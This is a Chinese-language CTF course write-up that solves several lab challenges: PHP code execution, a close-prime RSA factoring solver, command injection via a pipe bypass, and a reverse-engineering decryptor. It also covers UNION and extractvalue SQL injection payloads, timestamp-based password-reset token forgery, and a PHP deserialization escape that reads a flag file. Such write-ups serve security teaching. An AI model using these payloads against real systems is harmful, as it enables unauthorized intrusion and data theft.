



# CTF选修课第一次线上竞赛

## 1.跑马场

首页动态效果提到了ma.php


拼接进入


发现会执行lilac的内容，尝试发送POST请求。将lilac变量设置为phpinfo();

返回内容中包括当前环境变量，查找获取flag。



## 2.babyrsa

```
pip install pycryptodome
pip install sympy
```

下载包解压后分析task.py

```python
from Crypto.Util.number import *
from sympy import nextprime
from secret import flag

m = bytes_to_long(flag.encode())

p = getPrime(512)
q = p
for i in range(getRandomNBitInteger(10)):
  q = nextprime(q)

N = p * q
phi = (p-1) * (q-1)
e = 65537
d = inverse(e, phi)
c = pow(m, e, N)

print(f"{N=}")
print(f"{c=}")
```

首先生成一个512位的素数p，然后生成一个不超过i=2^10=1024的随机值，沿着该素数p向上查找第i个比p打的素数q。或者说认为p与q之间的素数不超过1023个

将其作为rsa的私钥对flag进行加密。

破解方法为，首先对N开根，由于pq=N，即p、q两个值分别位于根号N两侧。由源码可知p<N^0.5 , q>N^0.5。

沿着根号N向下找1024个素数，将其设为P，然后穷举1-1024个比p打的素数作为q，验证pq是否等于N

```python
from Crypto.Util.number import *
from sympy import isprime, nextprime
from math import sqrt
# 已知的 N 和 c
N =  <num N>
c =  <num C>
e = 65537

# 使用 sympy 计算 N 的大致平方根
approx_p = int(sqrt(N))

# 向下找到第一个素数 p
for _ in range(2**10):  # 10位随机数意味着最多1024次 nextprime
    approx_p -= 1
    while not isprime(approx_p):
        approx_p -= 1
    print(_)  # 为了方便调试，打印当前尝试的次数
    
# 从近似平方根开始尝试找到合适的 p 和 q
def find_p_q(N, approx_p):
    while True:
        q = nextprime(approx_p)
        for _ in range(2**10):  # 10位随机数意味着最多1024次 nextprime
            if approx_p * q == N:
                return approx_p, q
            q = nextprime(q)
        approx_p = nextprime(approx_p)  # 如果找不到，尝试下一个素数 p

p, q = find_p_q(N, approx_p)

# 找到 p 和 q 后，计算 phi 和私钥 d
phi = (p - 1) * (q - 1)
d = inverse(e, phi)

# 解密得到原文 m
m = pow(c, d, N)
flag = long_to_bytes(m)
print(flag.decode())
```
## 3.pingping

尝试&&作为shell连接符，发现被ban了


分号也被ban了


管道连接符没ban，可以顺带通过shell执行


得到flag。

## 4.babyreverse

IDA反编译

main函数：



猜测a1代表输入参数的数量，v3代表输入flag字符串的长度，a2[1]为输入的flag字符串。

将a2[1]和v3传入sub_1169子函数进行处理，返回值直接输出，即认为对flag的加密操作均在sub_1169中

sub_1169:



函数将flag作为hex字符串，将第一字节与第二字节异或，结果+33然后作为输出的第一字节。依次生成加密后的字符串。

逆向代码只需要将所有字节位减去33，然后从后向前没相邻两位做异或即可。

```python
def hex_string_decrypt(hex_str):
    # 确保输入的十六进制字符串长度为偶数
    if len(hex_str) % 2 != 0:
        raise ValueError("Invalid hex string length")

    # 转换十六进制字符串为字节数组
    byte_array = bytes.fromhex(hex_str)

    # 减去33并确保结果在合法字节范围内
    decrypted_bytes = [(byte - 33) & 0xFF for byte in byte_array]

    # 从倒数第二个字节开始依次进行异或操作
    for i in range(len(decrypted_bytes) - 2, -1, -1):
        decrypted_bytes[i] ^= decrypted_bytes[i + 1]

    # 将字节数组转换为字符串
    decrypted_str = ''.join(chr(byte) for byte in decrypted_bytes)

    return decrypted_str

if __name__ == "__main__":
    # 输入一个十六进制字符串
    hex_input = "2b2e273d3b797e75272326766a6f7222716f3a727e7c6f362e28746d697d2c2272752876752172776b9e"

    try:
        decrypted_output = hex_string_decrypt(hex_input)
        print("Decrypted string:", decrypted_output)
    except ValueError as e:
        print("Error:", e)
```
## 5.中级户籍表 sql注入


**查看当前用户、版本号、数据库名**

`Amy Jones' union select 1,database(),user(),version() #`


**注入查看当前数据库所有的表名**

`Amy Jones' union select 1,2,3,(select group_concat(table_name) from information_schema.tables where table_schema=database())#`


表名：*ggcpkcbobkehkqjl*

**注入出某一个表中的全部列名**

`Amy Jones'  union select 1,2,3,(select group_concat(column_name) from information_schema.columns where table_name='ggcpkcbobkehkqjl')#`


列名：*hjkdmkdikinccbed*

**注入出字段内容**

`Amy Jones' union select 1,2,3,(select hjkdmkdikinccbed from ggcpkcbobkehkqjl) #`


*flag{cc8c7fd3b3902482ff04e3ffbb75f0dd}*


## ex1.高级户籍表

**注入得到数据库名**

`Amy Jones' and extractvalue(1,concat(0x7e,database()));#`


`Amy Jones' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema='lilac')))#`


**注入得到表名**

`Amy Jones' and extractvalue(1,concat(0x7e,(select table_name  from information_schema.tables where table_schema='lilac' limit 0,1)));#`


表名：*dmgiimcl*


`Amy Jones' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema='lilac' and table_name='dmgiimcl')))#`


**注入得到列名**

`Amy Jones' and extractvalue(1,concat(0x7e,(select column_name  from information_schema.columns where table_schema='lilac' and table_name='dmgiimcl' limit 0,1)))#`


列名：*hjjlgcco*

`Amy Jones' and extractvalue(1,concat(0x7e,(select hjjlgcco from dmgiimcl limit 0,1)));#`


**得到flag的前31位**

*flag{55d6099c7128c38641ed4fece4*

`Amy Jones' and extractvalue(1,concat(0x7e,(select ascii(substr(hjjlgcco,32,1)) from dmgiimcl limit 0,1)))#`


`Amy Jones' and extractvalue(1,concat(0x7e,(select ascii(substr(hjjlgcco,33,1)) from dmgiimcl limit 0,1)))#`


**重复，直至38位**

`Amy Jones' and extractvalue(1,concat(0x7e,(select ascii(substr(hjjlgcco,38,1)) from dmgiimcl limit 0,1)))#`


125代表右大括号`}`的ascii码，代表flag结束

将所有项拼接即可得到flag

## ex2.logic

进入网页，查看cookie


解码得到网页名。


进入登陆首页。


在忘记密码页面，尝试重置aaa的密码


查看重置连接格式，其中有user和token


`http://xxx.xxx.xxx/resetpassword.php?token=MTcxODQ3NzQxMg==&user=aaa`

`token=MTcxODQ3NzQxMg==`

token经base64解码后得到`1718477412`，怀疑是时间戳


确实是时间戳

尝试重置admin的密码，同时记下时间


将时间转化为时间戳


`MTcxODQ3NzU1OQ==`

编辑重置密码的url，替换token和user


成功重置admin的密码


登入admin账号，得到flag


## ex3.profile php反序列化

查看网页，其中提到了php代码的序列化和反序列化


使用dirsearch扫描网页端

发现有www.zip的网站源代码


下载网站源码


源码：
```php
<?php
    function filter($cmd)
    {
        return preg_replace('/where/i','hacker',$cmd);
    }

    $p['name'] = $_GET['name'] ?? 'Guest';
    $p['img'] = 'show.jpg';

    $s = filter(serialize($p));

    $q = unserialize($s);
    $name = $q['name'];
    $img = base64_encode(file_get_contents($q['img'])); // Can You get flag?
?>
```

用户名输入where，发现报错


认为where替换为hacker时会有字符逃逸漏洞

由报错路径可知，`index.php`位于`/var/www/html`，即flag相对路径为`../../../flag`。

可以利用输出图片的代码间接输出flag：`$img = base64_encode(file_get_contents($q['img']));`。只需要将数组中的img变量替换为flag的相对路径


编写反序列化php，将img变量替换为flag路径`s:3:"img";s:13:"../../../flag";`。使用字符逃逸漏洞，在前面添加34个where字符

`wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:3:"img";s:13:"../../../flag";}`

运行无报错，证明img变量设置正确


查看图片连接，获取base64编码的flag


解码拿到flag


